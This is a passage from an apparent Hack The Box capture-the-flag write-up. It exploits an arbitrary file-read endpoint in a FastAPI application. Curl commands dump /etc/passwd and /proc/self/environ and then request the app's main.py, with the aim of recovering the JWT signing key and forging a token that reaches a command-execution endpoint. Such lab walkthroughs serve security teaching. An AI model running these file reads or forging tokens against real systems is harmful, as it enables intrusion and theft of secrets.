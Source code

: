 ```bash
  "file": "root:x:0:0:root:/root:/bin/bash\ndaemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin\nbin:x:2:2:bin:/bin:/usr/sbin/nologin\nsys:x:3:3:sys:/dev:/usr/sbin/nologin\nsync:x:4:65534:sync:/bin:/bin/sync\ngames:x:5:60:games:/usr/games:/usr/sbin/nologin\nman:x:6:12:man:/var/cache/man:/usr/sbin/nologin\nlp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin\nmail:x:8:8:mail:/var/mail:/usr/sbin/nologin\nnews:x:9:9:news:/var/spool/news:/usr/sbin/nologin\nuucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin\nproxy:x:13:13:proxy:/bin:/usr/sbin/nologin\nwww-data:x:33:33:www-data:/var/www:/usr/sbin/nologin\nbackup:x:34:34:backup:/var/backups:/usr/sbin/nologin\nlist:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin\nirc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin\ngnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin\nnobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin\nsystemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin\nsystemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin\nsystemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin\nmessagebus:x:103:106::/nonexistent:/usr/sbin/nologin\nsyslog:x:104:110::/home/syslog:/usr/sbin/nologin\n_apt:x:105:65534::/nonexistent:/usr/sbin/nologin\ntss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false\nuuidd:x:107:112::/run/uuidd:/usr/sbin/nologin\ntcpdump:x:108:113::/nonexistent:/usr/sbin/nologin\npollinate:x:110:1::/var/cache/pollinate:/bin/false\nusbmux:x:111:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin\nsshd:x:112:65534::/run/sshd:/usr/sbin/nologin\nsystemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin\nhtb:x:1000:1000:htb:/home/htb:/bin/bash\nlxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false\n"
}
```
{: .nolineno }

Great, now we can read files from the system, the next thing is to focus on the `/admin/exec/{command}` endpoint that will allow us to execute commands, but as we saw earlier, this command expects a debug variable in the `JWT`, but in order to modify it we need to know what is the key with which it has been signed. Luckily for us, we can now read files from the system and we know that it is an application made with python. Let's see if we can find some information to help us.

### Dump application source code

```bash
$ curl -s 'http://10.129.227.148/api/v1/admin/file' -H 'Authorization: Bearer [token]' -H 'Content-Type: application/json' -d '{"file": "/proc/self/environ"}' | jq      
{
  "file": "APP_MODULE=app.main:app\u0000PWD=/home/htb/uhc\u0000LOGNAME=htb\u0000PORT=80\u0000HOME=/home/htb\u0000LANG=C.UTF-8\u0000VIRTUAL_ENV=/home/htb/uhc/.venv\u0000INVOCATION_ID=76f234061dc84156b0a06eda15a9019f\u0000HOST=0.0.0.0\u0000USER=htb\u0000SHLVL=0\u0000PS1=(.venv) \u0000JOURNAL_STREAM=9:18517\u0000PATH=/home/htb/uhc/.venv/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin\u0000OLDPWD=/\u0000"
}
```
{: .nolineno }

When displaying the environment variables, two interesting variables are displayed `APP_MODULE=app.main:app` and `PWD=/home/htb/uhc`.

Searching a little I came across [this github repository](https://github.com/tiangolo/uvicorn-gunicorn-fastapi-docker), which uses the environment variable `APP_MODULE=app.main:app` in the same way and its folder structure is `/app/main.py` so considering that our current directory is `/home/htb/uhc`, in our case the file should be in `/home/htb/uhc/app/main.py`.

```bash
$ curl -s 'http://10.129.227.148/api/v1/admin/file' -H 'Authorization: Bearer token' -H 'Content-Type: application/json' -d '{"file": "/home/htb/uhc/app/main.py"}'
```
{: .nolineno }
